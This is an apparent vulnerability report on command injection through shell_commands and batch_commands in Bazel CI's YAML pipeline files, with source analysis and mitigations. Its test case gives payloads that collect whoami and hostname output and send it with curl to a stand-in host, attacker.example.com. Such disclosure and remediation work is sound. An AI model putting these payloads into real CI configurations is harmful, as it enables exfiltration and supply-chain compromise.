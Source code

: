 ### Combined Vulnerability Report

This report consolidates identified vulnerabilities from provided lists, removing duplicates and focusing on high and critical severity issues.

#### Vulnerability: YAML Command Injection in Pipeline Configuration

* **Description:**
    1. An attacker crafts a malicious pull request targeting a Bazel project utilizing Bazel CI.
    2. This pull request introduces modifications to a YAML pipeline configuration file, such as `.bazelci/presubmit.yml` or files within the `pipelines/` directory.
    3. Within the modified YAML file, the attacker injects arbitrary commands into sections designed for command execution, specifically `shell_commands` (for Linux/macOS) or `batch_commands` (for Windows). These injections exploit the YAML parsing and command execution mechanisms within the CI pipeline.
    4. A project maintainer, potentially unaware of the malicious YAML changes, reviews and merges the pull request.
    5. The Buildkite CI pipeline is triggered by the merged pull request, processing the modified YAML configuration.
    6. The CI system, using scripts like `bazelci.py`, parses the YAML and executes the commands specified in `shell_commands` or `batch_commands` sections. Due to the lack of input sanitization, the attacker's injected commands are executed directly on Bazel's CI infrastructure.

* **Impact:**
    - **Arbitrary code execution** on Bazel's CI machines.
    - **Critical compromise of Bazel's CI infrastructure**, potentially allowing the attacker to:
        - Access and exfiltrate sensitive information, including secrets, API keys, and internal source code.
        - Modify Bazel's source code repository or build artifacts, leading to supply chain attacks.
        - Tamper with the CI process itself, disrupting builds or injecting malicious code into software releases.
        - Use compromised CI machines as a launchpad for further attacks on internal systems.

* **Vulnerability Rank:** Critical

* **Currently Implemented Mitigations:**
    - **Documentation Warning:**  The `README.md` and `/buildkite/README.md` files contain a warning: "*Please vet external contributions carefully as they can execute arbitrary code on our CI machines*". This mitigation is purely informational, relying on manual vigilance during code review and does not technically prevent the vulnerability.
    - **Manual "Verify Pull Request" Status:** Buildkite's "Verify Pull Request" status is intended as a manual checkpoint to encourage maintainers to review external contributions. However, it is not a technical control and depends entirely on the thoroughness and security awareness of the reviewer.

* **Missing Mitigations:**
    - **Input Validation and Sanitization:** Lack of automated validation and sanitization of YAML configuration files. The system should implement robust input validation, particularly for fields that are interpreted as shell commands, to prevent the injection of malicious code. This includes escaping or sandboxing command execution.
    - **Secure YAML Parsing:** Ensure the use of secure YAML parsing practices, such as using `yaml.safe_load` in Python's PyYAML library, to prevent deserialization vulnerabilities that could lead to code execution during YAML parsing itself.
    - **Principle of Least Privilege:** CI pipeline tasks should operate with the minimum necessary privileges. Restricting the permissions of the CI execution environment can limit the potential damage from successful command injection.
    - **Automated Configuration Validation:** Implement automated tools and checks within the CI pipeline to parse and validate YAML configurations for security vulnerabilities before execution. This could include static analysis or security scanning tools tailored for YAML.
    - **Code Review Enforcement and Training:** Enforce mandatory code review policies, especially for changes to CI configuration files. Provide training to maintainers specifically focusing on YAML injection risks and secure code review practices for CI configurations.
    - **Sandboxing or Containerization:** Isolate CI pipeline tasks within sandboxes or containers. This would limit the impact of command injection by preventing access to the underlying CI infrastructure and restricting potential lateral movement.

* **Preconditions:**
    - The project must be using Bazel CI and Buildkite.
    - An attacker must be able to create a pull request to the Bazel project's repository.
    - A project maintainer with merge permissions must merge the attacker's pull request containing the malicious YAML configuration.

* **Source Code Analysis:**
    - The core logic for Bazel CI is located in `/code/buildkite/bazelci.py`. This script is responsible for parsing YAML configuration files and executing pipeline steps.
    - The `fetch_configs` and `load_config` functions in `bazelci.py` are responsible for loading and parsing YAML configuration files, likely using `yaml.safe_load` for YAML parsing.
    - The `execute_commands` function within `bazelci.py` handles the execution of commands defined in the YAML configuration. It extracts `shell_commands` and `batch_commands` from the parsed YAML.
    - The functions `execute_shell_commands` and `execute_batch_commands` within `bazelci.py` are used to execute the commands. Critically, these functions utilize `subprocess.run` with `shell=True`:

    ```python
    def execute_commands(...):
        ...
        if platform == "windows":
            execute_batch_commands(task_config.get("batch_commands", None), print_cmd_groups)
        else:
            execute_shell_commands(task_config.get("shell_commands", None), print_cmd_groups)

    def execute_shell_commands(commands, print_group=True, group_message=":bash: Setup (Shell Commands)"):
        ...
        shell_command = "\n".join(["set -e"] + commands)
        execute_command([shell_command], shell=True)

    def execute_batch_commands(commands, print_group=True, group_message=":batch: Setup (Batch Commands)"):
        ...
        batch_commands = "&".join(commands)
        return subprocess.run(batch_commands, shell=True, check=True, env=os.environ).returncode
    ```

    - **Vulnerability:** The use of `shell=True` in `subprocess.run` creates a command injection vulnerability. When `shell=True` is used, the first argument to `subprocess.run` is interpreted as a shell command string, allowing an attacker to inject arbitrary shell commands if they can control any part of this string. In this case, the attacker controls the `commands` list, which is directly derived from the YAML configuration.

    ```
    YAML Configuration (shell_commands/batch_commands) --> bazelci.py (execute_commands, execute_shell_commands/execute_batch_commands) --> subprocess.run(shell=True) --> Arbitrary Code Execution
    ```

* **Security Test Case:**
    1. **Fork the repository:** Fork the `bazelbuild/continuous-integration` repository (or any Bazel project using this CI setup) to your personal GitHub account.
    2. **Create a malicious branch:** Create a new branch in your forked repository, for example, `exploit-branch`.
    3. **Modify YAML Configuration:** Edit an existing YAML pipeline configuration file (e.g., `.bazelci/presubmit.yml` or `/code/pipelines/subpar.yml`).
    4. **Inject Malicious Command (Linux/macOS):** Within a task definition, add a `shell_commands` section and inject a command to verify execution and potentially exfiltrate data. For example:

    ```yaml
    tasks:
      vulnerable_task:
        platform: ubuntu2004
        shell_commands:
          - echo "YAML Injection Vulnerability Test"
          - whoami > /tmp/attack_info.txt
          - hostname >> /tmp/attack_info.txt
          - curl -F "file=@/tmp/attack_info.txt" https://attacker.example.com/exfiltrate # Replace with your server
    ```

    5. **Inject Malicious Command (Windows):** For Windows platforms, use `batch_commands` with equivalent commands:

    ```yaml
    tasks:
      vulnerable_task:
        platform: windows
        batch_commands:
          - echo "YAML Injection Vulnerability Test"
          - whoami > C:\attack_info.txt
          - hostname >> C:\attack_info.txt
          - curl -F "file=@C:\attack_info.txt" https://attacker.example.com/exfiltrate # Replace with your server
    ```

    6. **Create Pull Request:** Create a pull request from your `exploit-branch` to the original repository's `master` branch.
    7. **Trigger Pipeline:** If you have permissions or after a maintainer merges the PR (for testing purposes only, do not merge in a real scenario), the CI pipeline will be triggered.
    8. **Examine Build Logs:** In the Buildkite UI, navigate to the build logs for the task where you injected the command (`vulnerable_task`). Verify that the `echo`, `whoami`, and `hostname` commands were executed.
    9. **Verify Exfiltration (Optional):** If you used the `curl` command, check your attacker-controlled server (`https://attacker.example.com/exfiltrate`) for an incoming request containing the contents of `/tmp/attack_info.txt` or `C:\attack_info.txt`.
    10. **Verify Artifacts:**  You can also add a command to upload an artifact to Buildkite to easily verify the output of the injected commands: `- buildkite-agent artifact upload "/tmp/attack_info.txt"` (or `C:\attack_info.txt` on Windows). Check the artifacts tab in Buildkite for the uploaded file.
    11. **Important: Do Not Merge:**  **Do not merge the pull request** to the main repository as it contains a security vulnerability. This test case is solely for demonstration and validation in a controlled environment. Immediately close the pull request after testing and inform the security team.